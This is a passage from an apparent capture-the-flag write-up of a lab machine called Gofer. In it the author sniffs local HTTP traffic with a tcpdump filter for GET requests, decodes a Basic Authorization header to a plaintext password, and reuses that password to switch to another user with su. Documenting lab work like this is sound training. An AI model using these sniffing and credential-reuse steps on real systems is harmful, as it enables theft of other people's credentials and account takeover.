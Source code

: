 There are two ports contacted - someone on localhost talking to port 80, and someone on local host talking to 631 (cups printing service).

#### GET Requests

ChatGPT helped me write this `tcpdump` command to just see GET request data, and it works:

```

jhudson@gofer:/etc/apache2$ sudo tcpdump -i any -nn -A 'tcp port 80 and (tcp[((tcp[12:1] & 0xF0) >> 2):4] = 0x47455420)'
bash: sudo: command not found
jhudson@gofer:/etc/apache2$ tcpdump -i any -nn -A 'tcp port 80 and (tcp[((tcp[12:1] & 0xF0) >> 2):4] = 0x47455420)'     
tcpdump: data link type LINUX_SLL2
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
14:10:01.986142 lo    In  IP 127.0.0.1.58472 > 127.0.0.1.80: Flags [P.], seq 1376021622:1376021785, ack 1661516285, win 512, options [nop,nop,TS val 3293898230 ecr 3293898230], length 163: HTTP: GET /?url=http:/
/gofer.htb HTTP/1.1
E....r@.@............h.PR.lvc..............
.T...T..GET /?url=http://gofer.htb HTTP/1.1
Host: proxy.gofer.htb
Authorization: Basic dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=
User-Agent: curl/7.74.0
Accept: */*

14:10:01.987970 lo    In  IP 127.0.0.1.58478 > 127.0.0.1.80: Flags [P.], seq 3083973505:3083973553, ack 4056441888, win 512, options [nop,nop,TS val 3293898232 ecr 3293898232], length 48: HTTP: GET / HTTP/1.1
E..d..@.@.o..........n.P......d .....X.....
.T...T..GET / HTTP/1.1
Host: gofer.htb
Accept: */*

```

There’s two GET requests there. First to `proxy.gofer.htb` requesting `gofer.htb`, and then to `gofer.htb`. The first one has the `Authorization` header, which is just the base64-encoded username then colon then password:

```

jhudson@gofer:/etc/apache2$ echo "dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=" | base64 -d
tbuckley:ooP4dietie3o_hquaeti

```

### su / SSH

That password for tbuckley works as the password for the user on Gofer as well:

```

jhudson@gofer:/etc/apache2$ su - tbuckley
Password: 
tbuckley@gofer:~$

```
